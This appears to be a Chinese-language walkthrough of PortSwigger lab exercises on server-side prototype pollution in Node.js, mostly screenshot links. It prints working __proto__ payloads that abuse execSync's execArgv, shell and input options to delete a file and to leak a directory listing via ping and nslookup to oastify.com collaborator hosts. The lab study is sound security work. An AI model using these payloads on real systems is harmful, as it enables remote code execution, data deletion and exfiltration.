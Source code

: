 ![image-20250725203420758](portswigger.assets/image-20250725203420758.png)

用sspps扩展进行扫描，找到注入点![image-20250725205800661](portswigger.assets/image-20250725205800661.png)

![image-20250725204827738](portswigger.assets/image-20250725204827738.png)

 用json spaces确定污染

![image-20250725212518092](portswigger.assets/image-20250725212518092.png)

注入RCE后去触发他 发送![image-20250725212538386](portswigger.assets/image-20250725212538386.png)

然后这里污染一直没反应 到；另一个注入点

![image-20250725212647074](portswigger.assets/image-20250725212647074.png)

尝试执行whoami

![image-20250725213051857](portswigger.assets/image-20250725213051857.png)

![image-20250725213036348](portswigger.assets/image-20250725213036348.png)

直接删除"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('ping $(rm -f /home/carlos/morale.txt).lc1okipvqqufzogcvlo0jn3p0g69u0ip.oastify.com')"]
  }



## 108.实验室：通过服务器端原型污染泄露敏感数据

### 💥 背景：`execSync()` 如何导致远程代码执行（RCE）

Node.js 的 `child_process.execSync(command, options)` 是一个**同步执行 shell 命令**的接口，可以指定：

- `command`：要执行的命令字符串。
- `options.input`：会被写入 stdin，传给 shell 解释执行。
- `options.shell`：指定使用哪个 shell（默认是系统 shell，比如 `/bin/sh`）。

如果开发者使用 `execSync()`，但没有显式指定 `input` 或 `shell`，而你又能通过**原型污染**修改这两个字段，就可以控制输入内容和执行环境，从而劫持命令执行流程，实现 RCE。

```
"shell":"vim",

 "input":":! <command>\n"  //:!是让vim解析命令，\n模拟换行 执行
```

![image-20250725215947142](portswigger.assets/image-20250725215947142.png)

先找到污染源![image-20250725221526605](portswigger.assets/image-20250725221526605.png)

先看目录有什么

"__proto__":{
"shell":"vim",
"input":":! nslookup $(ls /home/carlos).9iscq6vjwe035cm019uopb9d64cy0poe.oastify.com\n"}
